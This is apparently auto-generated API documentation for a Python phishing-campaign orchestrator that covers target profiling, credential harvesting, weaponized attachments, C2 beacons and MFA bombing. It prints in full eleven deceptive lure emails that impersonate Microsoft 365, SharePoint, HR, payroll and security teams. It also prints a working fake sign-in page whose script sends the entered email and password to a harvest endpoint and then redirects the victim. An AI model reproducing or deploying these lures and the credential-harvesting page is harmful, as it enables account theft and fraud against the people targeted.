


# `modules.phishing_orchestrator`

> Source: [modules/phishing_orchestrator.py:1](../../modules/phishing_orchestrator.py#L1) | language `py` | coverage 85.7% | [API index](../index.md)

Smart Phishing Campaign Orchestrator.

Provides a `[`PhishingOrchestrator`](#phishingorchestrator)` that automates the full phishing lifecycle:
target profiling, email template generation, landing page cloning, credential
harvesting, and campaign analytics. Integrates with the C2 infrastructure
for callback tracking.

Architecture:
    TargetProfiler -> TemplateGenerator -> CampaignLauncher -> CredentialHarvester -> Analyst

Supported modes:
    credential_harvest  — Clone login pages and collect credentials.
    payload_delivery    — Send weaponized attachments.
    callback_beacon     — Embed C2 callback URLs for initial access.
    mfa_bombing        — Push notification fatigue attacks.

Security:
    All harvested credentials are written to ``sessions/phishing_creds.json``.
    Campaign data is isolated per engagement. No target email addresses are
    stored in repository files.

Usage:
    from modules.phishing_orchestrator import PhishingOrchestrator
    phish = PhishingOrchestrator()
    campaign_id = phish.launch(
        target_domain="target.com",
        template="microsoft_365_login",
        mode="credential_harvest",
    )

## Contents

- **Classes:** [`CampaignTarget`](#campaigntarget), [`PhishingTemplate`](#phishingtemplate), [`CampaignResult`](#campaignresult), [`PhishingOrchestrator`](#phishingorchestrator)

## Type Diagram



## Call Graph

Solid arrows stay in this module, dashed arrows leave it.



## Classes

<a id="campaigntarget"></a>

### `CampaignTarget`

`class` `dataclass` | [modules/phishing_orchestrator.py:139](../../modules/phishing_orchestrator.py#L139)

Decorators: `@dataclass`

```python
class CampaignTarget
```

A single phishing target profile.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`email`](#campaigntarget-email) | `str` |  |  |
| [`first_name`](#campaigntarget-first_name) | `str` | `''` |  |
| [`last_name`](#campaigntarget-last_name) | `str` | `''` |  |
| [`position`](#campaigntarget-position) | `str` | `''` |  |
| [`department`](#campaigntarget-department) | `str` | `''` |  |
| [`phone`](#campaigntarget-phone) | `str` | `''` |  |
| [`company`](#campaigntarget-company) | `str` | `''` |  |
| [`linkedin`](#campaigntarget-linkedin) | `str` | `''` |  |
| [`osint_notes`](#campaigntarget-osint_notes) | `str` | `''` |  |

---

<a id="phishingtemplate"></a>

### `PhishingTemplate`

`class` `dataclass` | [modules/phishing_orchestrator.py:154](../../modules/phishing_orchestrator.py#L154)

Decorators: `@dataclass`

```python
class PhishingTemplate
```

An email/page template for phishing.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`name`](#phishingtemplate-name) | `str` |  |  |
| [`subject`](#phishingtemplate-subject) | `str` |  |  |
| [`body_html`](#phishingtemplate-body_html) | `str` |  |  |
| [`body_text`](#phishingtemplate-body_text) | `str` | `''` |  |
| [`landing_page_html`](#phishingtemplate-landing_page_html) | `str` | `''` |  |
| [`sender_display`](#phishingtemplate-sender_display) | `str` | `''` |  |
| [`urgency_score`](#phishingtemplate-urgency_score) | `int` | `1` |  |

---

<a id="campaignresult"></a>

### `CampaignResult`

`class` `dataclass` | [modules/phishing_orchestrator.py:167](../../modules/phishing_orchestrator.py#L167)

Decorators: `@dataclass`

```python
class CampaignResult
```

Outcome of a phishing campaign.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`campaign_id`](#campaignresult-campaign_id) | `str` |  |  |
| [`emails_sent`](#campaignresult-emails_sent) | `int` | `0` |  |
| [`emails_delivered`](#campaignresult-emails_delivered) | `int` | `0` |  |
| [`emails_opened`](#campaignresult-emails_opened) | `int` | `0` |  |
| [`links_clicked`](#campaignresult-links_clicked) | `int` | `0` |  |
| [`credentials_captured`](#campaignresult-credentials_captured) | `int` | `0` |  |
| [`beacons_deployed`](#campaignresult-beacons_deployed) | `int` | `0` |  |
| [`errors`](#campaignresult-errors) | `list[str]` | `field(default_factory=list)` |  |

---

<a id="phishingorchestrator"></a>

### `PhishingOrchestrator`

`class` | [modules/phishing_orchestrator.py:180](../../modules/phishing_orchestrator.py#L180)

```python
class PhishingOrchestrator
```

Orchestrate end-to-end phishing campaigns.

Public methods:
    launch(target_domain, template, mode) -> str (campaign_id)
    profile_targets(domain) -> list[CampaignTarget]
    generate_template(name, target_domain, context) -> PhishingTemplate
    clone_landing_page(url) -> str (local path)
    get_results(campaign_id) -> CampaignResult

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`BUILTIN_TEMPLATES`](#phishingorchestrator-builtin_templates) |  | `{'microsoft_365_login': {'subject': 'Action Required: Your Microsoft 365 Password Expires Today', 'body_html': '\n<html><body>\n<p>Dear {first_name},</p>\n<p>Your Microsoft 365 password expires today. Please update your\npassword immediately to avoid losing access to your email and files.</p>\n<p><a href="{phishing_url}">Update Password Now</a></p>\n<p><small>This is an automated notification from your IT department.</small></p>\n</body></html>', 'sender_display': 'Microsoft 365 Admin <no-reply@microsoftonline.com>', 'urgency_score': 8}, 'sharepoint_share': {'subject': '{sender_name} shared a document with you', 'body_html': '\n<html><body>\n<p>Hi {first_name},</p>\n<p>{sender_name} shared a confidential document with you:</p>\n<p><a href="{phishing_url}">Annual_Report_2025_Q1.xlsx</a></p>\n<p><small>Shared via SharePoint Online</small></p>\n</body></html>', 'sender_display': 'SharePoint Online <no-reply@sharepointonline.com>', 'urgency_score': 5}, 'password_reset': {'subject': 'IT Security: Mandatory Password Reset Required', 'body_html': '\n<html><body>\n<p>Hello {first_name},</p>\n<p>Our security team has detected unusual activity on your account. As a\nprecaution, a mandatory password reset has been initiated.</p>\n<p><a href="{phishing_url}">Reset Your Password Securely</a></p>\n<p>This link expires in 24 hours.</p>\n</body></html>', 'sender_display': 'IT Security <security@{target_domain}>', 'urgency_score': 9}, 'voicemail_notification': {'subject': 'New Voicemail from {sender_name} ({duration}s)', 'body_html': '\n<html><body>\n<p>You have a new voicemail message:</p>\n<p>From: {sender_name}</p>\n<p>Duration: {duration}s</p>\n<p><a href="{phishing_url}">Listen to Voicemail</a></p>\n</body></html>', 'sender_display': 'Voicemail System <voicemail@{target_domain}>', 'urgency_score': 4}, 'hr_policy_update': {'subject': 'Important: Updated Employee Handbook & Policy Changes', 'body_html': '\n<html><body>\n<p>Dear {first_name},</p>\n<p>Human Resources has published updates to the Employee Handbook and\ncompany policies effective immediately. All employees are required to\nacknowledge these changes.</p>\n<p><a href="{phishing_url}">Review & Acknowledge Policy Updates</a></p>\n<p><small>Human Resources Department</small></p>\n</body></html>', 'sender_display': 'Human Resources <hr@{target_domain}>', 'urgency_score': 6}, 'payroll_adjustment': {'subject': 'Confidential: Salary Structure Adjustments Effective Next Month', 'body_html': '\n<html><body>\n<p>Dear {first_name},</p>\n<p>Payroll has completed the yearly salary structure review. Your new\ncompensation sheet is attached to the secure portal and requires your\nacknowledgement before the next payroll cycle.</p>\n<p><a href="{phishing_url}">Open Your Compensation Sheet</a></p>\n<p><small>Payroll and Benefits Department</small></p>\n</body></html>', 'sender_display': 'Payroll Department <payroll@{target_domain}>', 'urgency_score': 7}, 'holiday_benefits': {'subject': 'Holiday Benefit Package: Claim Your Gift Card Before Expiry', 'body_html': '\n<html><body>\n<p>Hi {first_name},</p>\n<p>As part of this season\'s benefit package, employees can claim one\ngift card while stock lasts. Registration closes at the end of the week.</p>\n<p><a href="{phishing_url}">Claim Your Benefit Package</a></p>\n<p><small>Employee Benefits Portal</small></p>\n</body></html>', 'sender_display': 'Employee Benefits <benefits@{target_domain}>', 'urgency_score': 7}, 'job_application': {'subject': 'Candidate Application Received: Confirm Interview Slot', 'body_html': '\n<html><body>\n<p>Hello,</p>\n<p>The recruitment team received your application and can offer two\ninterview slots. Confirm your availability through the scheduling portal\nwithin 48 hours or the application will be archived.</p>\n<p><a href="{phishing_url}">Confirm Interview Slot</a></p>\n<p><small>Recruitment Team</small></p>\n</body></html>', 'sender_display': 'Talent Acquisition <talent@{target_domain}>', 'urgency_score': 8}, 'mailbox_quota': {'subject': 'Mailbox Capacity Upgrade: Action Required Today', 'body_html': '\n<html><body>\n<p>Hi {first_name},</p>\n<p>Your mailbox has reached {quota_percent}% of its storage quota.\nApprove the free capacity upgrade today to avoid delivery interruptions\nand losing mailbox access.</p>\n<p><a href="{phishing_url}">Upgrade Mailbox Capacity</a></p>\n<p><small>Mail Server Administration</small></p>\n</body></html>', 'sender_display': 'Mail Administrator <postmaster@{target_domain}>', 'urgency_score': 9}, 'vuln_selfcheck': {'subject': 'Security Notice: Critical Vulnerability Self-Check Tool Required', 'body_html': '\n<html><body>\n<p>Dear {first_name},</p>\n<p>The security team has detected active exploitation of a critical\nvulnerability affecting internal workstations. Every endpoint must run\nthe mandatory self-check utility before the next VPN session.</p>\n<p><a href="{phishing_url}">Download the Self-Check Utility</a></p>\n<p><small>Security Operations Center</small></p>\n</body></html>', 'sender_display': 'Security Operations <soc@{target_domain}>', 'urgency_score': 10}, 'drill_notice': {'subject': 'Upcoming Security Drill: Register Your Response Account', 'body_html': '\n<html><body>\n<p>Hello {first_name},</p>\n<p>An organisation-wide security drill starts this week. Register your\nresponse account with your corporate credentials so the monitoring\nteam can track your participation status.</p>\n<p><a href="{phishing_url}">Register Your Response Account</a></p>\n<p><small>Security Awareness Team</small></p>\n</body></html>', 'sender_display': 'Security Awareness <awareness@{target_domain}>', 'urgency_score': 6}}` |  |
| [`DEFAULT_LANDING_PAGE`](#phishingorchestrator-default_landing_page) |  | `'\n<!DOCTYPE html>\n<html>\n<head>\n <meta charset="UTF-8">\n <title>{page_title}</title>\n <style>\n * {{ margin: 0; padding: 0; box-sizing: border-box; }}\n body {{ font-family: \'Segoe UI\', Arial, sans-serif; background: #f0f2f5; display: flex; justify-content: center; align-items: center; min-height: 100vh; }}\n .login-box {{ background: #fff; border-radius: 8px; box-shadow: 0 2px 10px rgba(0,0,0,0.1); padding: 2rem; width: 400px; max-width: 90%; }}\n .logo {{ text-align: center; margin-bottom: 1.5rem; font-size: 1.5rem; color: #1b1b1b; }}\n .logo img {{ height: 40px; }}\n h2 {{ font-size: 1.2rem; margin-bottom: 0.5rem; color: #1b1b1b; }}\n p {{ color: #5e5e5e; margin-bottom: 1.5rem; font-size: 0.9rem; }}\n input {{ width: 100%; padding: 10px; margin-bottom: 1rem; border: 1px solid #ddd; border-radius: 4px; font-size: 0.95rem; }}\n input:focus {{ outline: none; border-color: {accent_color}; }}\n button {{ width: 100%; padding: 12px; background: {accent_color}; color: #fff; border: none; border-radius: 4px; font-size: 1rem; cursor: pointer; }}\n button:hover {{ opacity: 0.9; }}\n .error {{ color: #e81123; font-size: 0.8rem; margin-bottom: 0.5rem; display: none; }}\n .footer {{ text-align: center; margin-top: 1rem; font-size: 0.75rem; color: #999; }}\n </style>\n</head>\n<body>\n <div class="login-box">\n <div class="logo">{logo_html}</div>\n <h2>Sign in</h2>\n <p>to continue to {service_name}</p>\n <div class="error" id="error">Incorrect email or password. Please try again.</div>\n <form id="loginForm" method="POST" action="{harvest_endpoint}">\n <input type="email" name="email" id="email" placeholder="Email, phone, or Skype" required>\n <input type="password" name="password" id="password" placeholder="Password" required>\n <button type="submit">Sign in</button>\n </form>\n <div class="footer">&copy; {year} {company_name}. All rights reserved.</div>\n </div>\n <script>\n document.getElementById(\'loginForm\').addEventListener(\'submit\', async function(e) {{\n e.preventDefault();\n const email = document.getElementById(\'email\').value;\n const password = document.getElementById(\'password\').value;\n try {{\n await fetch(\'{harvest_endpoint}\', {{\n method: \'POST\',\n headers: {{ \'Content-Type\': \'application/json\' }},\n body: JSON.stringify({{ email, password }})\n }});\n }} catch (err) {{}}\n document.getElementById(\'error\').style.display = \'block\';\n setTimeout(() => {{ window.location.href = \'{redirect_url}\'; }}, 2000);\n }});\n </script>\n</body>\n</html>\n'` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`__init__`](#phishingorchestrator-__init__) | constructor |  |
| [`get_instance`](#phishingorchestrator-get_instance) | classmethod |  |
| [`launch`](#phishingorchestrator-launch) | method | Launch a phishing campaign. |
| [`profile_targets`](#phishingorchestrator-profile_targets) | method | Profile targets for a domain using OSINT techniques. |
| [`generate_template`](#phishingorchestrator-generate_template) | method | Generate or retrieve a phishing template. |
| [`clone_landing_page`](#phishingorchestrator-clone_landing_page) | method | Clone a target login page for credential harvesting. |
| [`get_results`](#phishingorchestrator-get_results) | method | Get campaign results. |
| [`record_click`](#phishingorchestrator-record_click) | method | Record a link click. |
| [`record_credentials`](#phishingorchestrator-record_credentials) | method | Record harvested credentials. |

<a id="phishingorchestrator-__init__"></a>

#### `PhishingOrchestrator.__init__`

`constructor` | [modules/phishing_orchestrator.py:399](../../modules/phishing_orchestrator.py#L399)

```python
def __init__(self) -> None
```

<a id="phishingorchestrator-get_instance"></a>

#### `PhishingOrchestrator.get_instance`

`classmethod` | [modules/phishing_orchestrator.py:404](../../modules/phishing_orchestrator.py#L404)

Decorators: `@classmethod`

```python
def get_instance(cls) -> PhishingOrchestrator
```

**Returns:** `PhishingOrchestrator`

*Called by:* [`run_fallback`](modules.lazypoophish.py.md#run_fallback)

<a id="phishingorchestrator-launch"></a>

#### `PhishingOrchestrator.launch`

`method` | [modules/phishing_orchestrator.py:415](../../modules/phishing_orchestrator.py#L415)

```python
def launch(self, target_domain: str, template: str = 'microsoft_365_login', mode: str = 'credential_harvest', targets_file: str = '', sender_email: str = '', sender_password: str = '', smtp_host: str = '', smtp_port: int = 587) -> str
```

Launch a phishing campaign.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `target_domain` | `str` |  | Target organization domain. |
| `template` | `str` | `'microsoft_365_login'` | Template name or custom template dict. |
| `mode` | `str` | `'credential_harvest'` | credential_harvest, payload_delivery, callback_beacon. |
| `targets_file` | `str` | `''` | Path to targets CSV (email,first_name,last_name...). |
| `sender_email` | `str` | `''` | Email to send from. |
| `sender_password` | `str` | `''` | SMTP password or app password. |
| `smtp_host` | `str` | `''` | SMTP server hostname. |
| `smtp_port` | `int` | `587` | SMTP server port. |

**Returns:** `str` - Campaign ID string.

*Calls:* [`CampaignResult`](#campaignresult), [`PhishingOrchestrator.generate_template`](#phishingorchestrator-generate_template), [`PhishingOrchestrator.profile_targets`](#phishingorchestrator-profile_targets)

<a id="phishingorchestrator-profile_targets"></a>

#### `PhishingOrchestrator.profile_targets`

`method` | [modules/phishing_orchestrator.py:524](../../modules/phishing_orchestrator.py#L524)

```python
def profile_targets(self, domain: str) -> list[CampaignTarget]
```

Profile targets for a domain using OSINT techniques.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `domain` | `str` |  | Target organization domain. |

**Returns:** `list[CampaignTarget]` - List of CampaignTarget profiles.

*Calls:* [`CampaignTarget`](#campaigntarget)

*Called by:* [`PhishingOrchestrator.launch`](#phishingorchestrator-launch)

<a id="phishingorchestrator-generate_template"></a>

#### `PhishingOrchestrator.generate_template`

`method` | [modules/phishing_orchestrator.py:569](../../modules/phishing_orchestrator.py#L569)

```python
def generate_template(self, name: str, target_domain: str = '', context: dict[str, str] | None = None) -> PhishingTemplate
```

Generate or retrieve a phishing template.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `name` | `str` |  | Template name or path to custom template JSON. |
| `target_domain` | `str` | `''` | Target domain for variable substitution. |
| `context` | `dict[str, str] \| None` | `None` | Additional template variables. |

**Returns:** `PhishingTemplate` - PhishingTemplate instance.

*Calls:* [`PhishingTemplate`](#phishingtemplate)

*Called by:* [`PhishingOrchestrator.launch`](#phishingorchestrator-launch)

<a id="phishingorchestrator-clone_landing_page"></a>

#### `PhishingOrchestrator.clone_landing_page`

`method` | [modules/phishing_orchestrator.py:616](../../modules/phishing_orchestrator.py#L616)

```python
def clone_landing_page(self, url: str) -> str
```

Clone a target login page for credential harvesting.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `url` | `str` |  | URL of the page to clone. |

**Returns:** `str` - Path to the cloned HTML file.

<a id="phishingorchestrator-get_results"></a>

#### `PhishingOrchestrator.get_results`

`method` | [modules/phishing_orchestrator.py:643](../../modules/phishing_orchestrator.py#L643)

```python
def get_results(self, campaign_id: str) -> CampaignResult
```

Get campaign results.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `campaign_id` | `str` |  | Campaign identifier. |

**Returns:** `CampaignResult` - CampaignResult with statistics.

*Calls:* [`CampaignResult`](#campaignresult)

<a id="phishingorchestrator-record_click"></a>

#### `PhishingOrchestrator.record_click`

`method` | [modules/phishing_orchestrator.py:667](../../modules/phishing_orchestrator.py#L667)

```python
def record_click(self, campaign_id: str, email: str) -> None
```

Record a link click.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `campaign_id` | `str` |  | Campaign identifier. |
| `email` | `str` |  | Email that clicked. |

<a id="phishingorchestrator-record_credentials"></a>

#### `PhishingOrchestrator.record_credentials`

`method` | [modules/phishing_orchestrator.py:688](../../modules/phishing_orchestrator.py#L688)

```python
def record_credentials(self, campaign_id: str, email: str, password: str) -> None
```

Record harvested credentials.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `campaign_id` | `str` |  | Campaign identifier. |
| `email` | `str` |  | Harvested email/username. |
| `password` | `str` |  | Harvested password. |

---
